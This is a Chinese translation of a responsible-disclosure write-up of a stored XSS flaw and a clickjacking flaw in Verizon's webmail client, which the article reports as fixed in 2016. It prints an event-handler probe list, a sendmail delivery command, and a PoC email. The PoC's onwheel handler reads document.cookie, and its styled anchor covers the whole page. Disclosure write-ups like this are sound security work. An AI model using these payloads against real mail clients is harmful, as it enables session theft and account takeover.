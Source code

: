 > 原文链接: https://www.anquanke.com//post/id/85140 


# 【技术分享】Verizon的Webmail客户端存储型XSS漏洞


                                阅读量   
                                **78669**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：randywestergren.com
                                <br>原文地址：[https://randywestergren.com/persistent-xss-verizons-webmail-client/](https://randywestergren.com/persistent-xss-verizons-webmail-client/)

译文仅供参考，具体内容表达以及含义原文为准



[![](https://p2.ssl.qhimg.com/t017e90f60e757a3554.png)](https://p2.ssl.qhimg.com/t017e90f60e757a3554.png)

****

翻译：[WisFree](http://bobao.360.cn/member/contribute?uid=2606963099)

预估稿费：160RMB（不服你也来投稿啊！）

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿



**写在前面的话**



在此之前，我曾经专门写过一篇技术文章来详细讲解过[Verizon Webmial客户端](https://mail.verizon.com/)的服务器端漏洞【[文章传送门](https://randywestergren.com/critical-vulnerability-compromising-verizon-email-accounts/)】。但是我最近又在这个客户端中发现了一些非常有意思的漏洞，这些漏洞将允许攻击者入侵目标用户的整个电子邮箱账号。因此，我打算在这篇文章中分析一下这两个存在于Verizon Webmail客户端中的XSS漏洞和点击劫持漏洞。

**存储型XSS漏洞**



存储型 XSS 通常也叫做“持久型 XSS”，它与反射型 XSS 最大的区别就是攻击脚本能永久存储在目标服务器数据库或文件中。这种 XSS 具有很强的稳定性。比较常见的一个场景就是，恶意攻击者将包含有恶意 JavaScript 代码文章发表在热点博客或论坛，吸引大量的用户进行访问，所有访问该文章的用户，恶意代码都会在其客户端浏览器运行安装。

[![](https://p0.ssl.qhimg.com/t01756500bccc48d48b.png)](https://p0.ssl.qhimg.com/t01756500bccc48d48b.png)

黑客把恶意的脚本保存在服务器端，所以这种 XSS 攻击就叫做“存储型 XSS”。相比于反射型 XSS，存储型 XSS 可以造成多种危害巨大的攻击。因为恶意攻击者只需要将恶意脚本保存在服务器端，就可以进行多次攻击。

**点击劫持**



点击劫持也被称为UI-覆盖攻击，它可以通过覆盖不可见的框架元素来误导目标用户去点击访问恶意内容。这种攻击利用了HTML中某些标签或元素的透明属性，虽然目标用户点击的是他所看到的内容，但其实他点击的是攻击者精心构建的另一个覆盖于原网页上的透明页面。点击劫持技术可以通过嵌入代码或者文本的形式出现，攻击者可以在用户毫不知情的情况下完成攻击，比如点击一个表面显示是“播放”某个视频的按钮，而实际上完成的操作却是将用户的社交网站个人信息改为“公开”状态。

**技术分析**



在开始分析之前，让我们先来看一看Webmail客户端所支持的HTML元素／属性。虽然还有很多其他更好的方法来识别这些网页属性，但是我打算生成了一个列表，并且将Webmail客户端中所有有效的HTML元素和每一个可能存在的属性都保存在里面。点击【[这里](https://gist.github.com/rwestergren/63e51daaf9cf64c44d0b20eca530433e)】获取完整的文件，下面给出的是一个简单的样本：

```
&lt;figure onafterprint="console.log(244599)" onbeforeprint="console.log(309354)"
onbeforeunload="console.log(879813)" onerror="console.log(949564)" onhashchange="console.log(575242)"
onload="console.log(301053)" onmessage="console.log(976974)" onoffline="console.log(796090)"
ononline="console.log(432638)" onpagehide="console.log(504345)" onpageshow="console.log(696619)"
onpopstate="console.log(398418)" onresize="console.log(943097)" onstorage="console.log(882233)"
onunload="console.log(929443)" onblur="console.log(932104)" onchange="console.log(102339)"
oncontextmenu="console.log(761265)" onfocus="console.log(188946)" oninput="console.log(143653)"
oninvalid="console.log(304208)" onreset="console.log(318472)" onsearch="console.log(778420)"
onselect="console.log(942035)" onsubmit="console.log(603589)" onkeydown="console.log(650647)"
onkeypress="console.log(579383)" onkeyup="console.log(821763)" onclick="console.log(284098)"
ondblclick="console.log(477370)" ondrag="console.log(439095)" ondragend="console.log(546684)"
ondragenter="console.log(197257)" ondragleave="console.log(238440)" ondragover="console.log(783418)"
ondragstart="console.log(773843)" ondrop="console.log(436878)" onmousedown="console.log(153386)"
onmousemove="console.log(598217)" onmouseout="console.log(425628)" onmouseover="console.log(359441)"
onmouseup="console.log(687310)" onmousewheel="console.log(823824)" onscroll="console.log(175565)"
onwheel="console.log(595449)" oncopy="console.log(243603)" oncut="console.log(841770)"
onpaste="console.log(489332)" onabort="console.log(516667)" oncanplay="console.log(329437)"
oncanplaythrough="console.log(754238)" oncuechange="console.log(268702)"
ondurationchange="console.log(455721)" onemptied="console.log(923165)"
onended="console.log(330716)" onerror="console.log(382133)" onloadeddata="console.log(268470)"
onloadedmetadata="console.log(934963)" onloadstart="console.log(664605)"
onpause="console.log(957774)" onplay="console.log(750548)" onplaying="console.log(887438)"
onprogress="console.log(648208)" onratechange="console.log(742465)" onseeked="console.log(559902)"
onseeking="console.log(296937)" onstalled="console.log(613468)" onsuspend="console.log(651399)"
ontimeupdate="console.log(993291)" onvolumechange="console.log(508203)"
onwaiting="console.log(146149)" onerror="console.log(470459)" onshow="console.log(586099)"
ontoggle="console.log(739568)" accesskey="test3617" contenteditable="test3617"
contextmenu="test3617" data-nent="test3617" dir="test3617" draggable="test3617"
dropzone="test3617" hidden="test3617" id="test3617" spellcheck="test3617"
style="display:block" tabindex="test3617" title="test3617" translate="test3617"&gt;Test&lt;/figure&gt;

&lt;footer onafterprint="console.log(244599)" onbeforeprint="console.log(309354)"
onbeforeunload="console.log(879813)" onerror="console.log(949564)" onhashchange="console.log(575242)"
onload="console.log(301053)" onmessage="console.log(976974)" onoffline="console.log(796090)"
ononline="console.log(432638)" onpagehide="console.log(504345)" onpageshow="console.log(696619)"
onpopstate="console.log(398418)" onresize="console.log(943097)" onstorage="console.log(882233)"
onunload="console.log(929443)" onblur="console.log(932104)" onchange="console.log(102339)"
oncontextmenu="console.log(761265)" onfocus="console.log(188946)" oninput="console.log(143653)"
oninvalid="console.log(304208)" onreset="console.log(318472)" onsearch="console.log(778420)"
onselect="console.log(942035)" onsubmit="console.log(603589)" onkeydown="console.log(650647)"
onkeypress="console.log(579383)" onkeyup="console.log(821763)" onclick="console.log(284098)"
ondblclick="console.log(477370)" ondrag="console.log(439095)" ondragend="console.log(546684)"
ondragenter="console.log(197257)" ondragleave="console.log(238440)" ondragover="console.log(783418)"
ondragstart="console.log(773843)" ondrop="console.log(436878)" onmousedown="console.log(153386)"
onmousemove="console.log(598217)" onmouseout="console.log(425628)" onmouseover="console.log(359441)"
onmouseup="console.log(687310)" onmousewheel="console.log(823824)" onscroll="console.log(175565)"
onwheel="console.log(595449)" oncopy="console.log(243603)" oncut="console.log(841770)"
onpaste="console.log(489332)" onabort="console.log(516667)" oncanplay="console.log(329437)"
oncanplaythrough="console.log(754238)" oncuechange="console.log(268702)"
ondurationchange="console.log(455721)" onemptied="console.log(923165)"
onended="console.log(330716)" onerror="console.log(382133)" onloadeddata="console.log(268470)"
onloadedmetadata="console.log(934963)" onloadstart="console.log(664605)"
onpause="console.log(957774)" onplay="console.log(750548)" onplaying="console.log(887438)"
onprogress="console.log(648208)" onratechange="console.log(742465)" onseeked="console.log(559902)"
onseeking="console.log(296937)" onstalled="console.log(613468)" onsuspend="console.log(651399)"
ontimeupdate="console.log(993291)" onvolumechange="console.log(508203)"
onwaiting="console.log(146149)" onerror="console.log(470459)" onshow="console.log(586099)"
ontoggle="console.log(739568)" accesskey="test3617" contenteditable="test3617"
contextmenu="test3617" data-nent="test3617" dir="test3617" draggable="test3617"
dropzone="test3617" hidden="test3617" id="test3617" spellcheck="test3617"
style="display:block" tabindex="test3617" title="test3617" translate="test3617"&gt;Test&lt;/footer&gt;
```

接下来，将一封包含HTML代码的电子邮件发送给我自己的Verizon邮箱，然后在HTML的body中嵌入我们的payload：

```
[user@rw verizon-poc]$ head email.txt | less
Content-Type: text/html;
Subject: Testing the new email

&lt;a onafterprint="console.log(244599)" onbeforeprint="console.log(309354)"
onbeforeunload="console.log(879813)" onerror="console.log(949564)" onhashchange="console.log(575242)"
onload="console.log(301053)" onmessage="console.log(976974)" onoffline="console.log(796090)"
ononline="console.log(432638)" onpagehide="console.log(504345)" onpageshow="console.log(696619)"
onpopstate="console.log(398418)" onresize="console.log(943097)" onstorage="console.log(882233)"
onunload="console.log(929443)" onblur="console.log(932104)" onchange="console.log(102339)"
oncontextmenu="console.log(761265)" onfocus="console.log(188946)" oninput="console.log(143653)"
oninvalid="console.log(304208)" onreset="console.log(318472)" onsearch="console.log(778420)"&gt;Test&lt;/a&gt;

&lt;!-- Snipped --&gt;
```

```
[user@rw verizon-poc]$ sendmail -t ***REMOVED***@verizon.net &lt; ./email.txt
```

邮件发送成功之后，我登录进我的Verizon邮箱，然后打开这封电子邮件。具体如下图所示：

[![](https://p4.ssl.qhimg.com/t01a44c512248c0a2f0.png)](https://p4.ssl.qhimg.com/t01a44c512248c0a2f0.png)

打开了这封邮件之后，我们再打开Chrome浏览器的开发模式控制台（console），然后看一看相应的HTML元素和属性。在分析的过程中，我突然注意到了几个非常有意思的属性，正是这几个属性让这封包含恶意payload的电子邮件顺利绕过了邮件系统的过滤器。其中，影响最大的两个HTML属性为“onwheel”和“oninput”。除此之外，我还发现邮件系统并没有对“style”属性中的内容进行过滤处理。这样一来，攻击者就可以利用这个属性来对目标用户进行[点击劫持攻击](https://en.wikipedia.org/wiki/Clickjacking)和其他类型的恶意攻击了。

为了向大家演示整个漏洞利用的过程，也可以说是为了确定漏洞的可利用性，我设计了一个漏洞利用PoC，并且在这个payload中利用了两个邮件客户端的漏洞。相关代码如下所示：

```
Content-Type: text/html;
Subject: PoC

Verizon Webmail PoC - Move scrollwheel to trigger the XSS payload.
Note the overlay anchor that also demonstrates the clickjacking vulnerability.
&lt;a href="https://en.wikipedia.org/wiki/Clickjacking" onwheel="alert(document.cookie)"
style="position:fixed;top:0;left:0;width:100%;height:100%;"&gt;&lt;/a&gt;
&lt;br&gt;
&lt;br&gt;
&lt;!-- Snipped --&gt;
&lt;br&gt;
&lt;br&gt;
&lt;br&gt;
&lt;div style="font-size:72px"&gt;
An interesting message here to entice the user to scroll down.
&lt;/div&gt;
&lt;br&gt;
&lt;br&gt;
&lt;br&gt;
&lt;!-- Snipped --&gt;
&lt;br&gt;
&lt;br&gt;
```

我将这个新的payload嵌入在电子邮件中，然后发送给我自己的电子邮箱中，并在Webmail客户端中打开了这封邮件。我们可以从下面这张图片中看到，其中的XSS payload已经被成功触发了：

[![](https://p2.ssl.qhimg.com/t018adde82ce7a85c60.png)](https://p2.ssl.qhimg.com/t018adde82ce7a85c60.png)

请大家仔细看看上面所给出的PoC代码，锚点（“&lt;a&gt;标签”）中的style属性将整个弹窗变成了一个可点击的覆盖页面。这也就意味着，无论这个XSS payload是否是由鼠标滚轮的滚动动作所触发的，其中锚点元素的覆盖物都可以让用户在毫不知情的情况下点击攻击者提供的恶意链接。

**漏洞时间轴**



2016年03月28日：漏洞报告给了Verizon，并提供了相应的漏洞PoC。

2016年04月21日：XSS漏洞成功修复，点击劫持漏洞仍未修复。

2016年04月21日：我向提出Verizon建议，限制style属性的使用以缓解点击劫持攻击所带来的影响。

2016年04月25日：点击劫持漏洞成功修复。

**总结**



Verizon电子邮件客户端中的这个持久型（存储型）XSS漏洞是非常危险的，因为攻击者可以直接将恶意payload发送给目标用户，而且在payload被执行之前，攻击者已经获取到了用户的身份认证数据，因此payload的执行将不会受到任何的限制。虽然很多XSS漏洞在利用之前还需要攻击者进行大量的准备工作，但是这个XSS漏洞只要求用户打开一个攻击者精心制作的电子邮件即可（滚动鼠标的滚轮，即可触发恶意payload）。再配合上这个点击劫持漏洞，攻击者就可以利用这两个漏洞轻松高效地对目标用户发动攻击了。


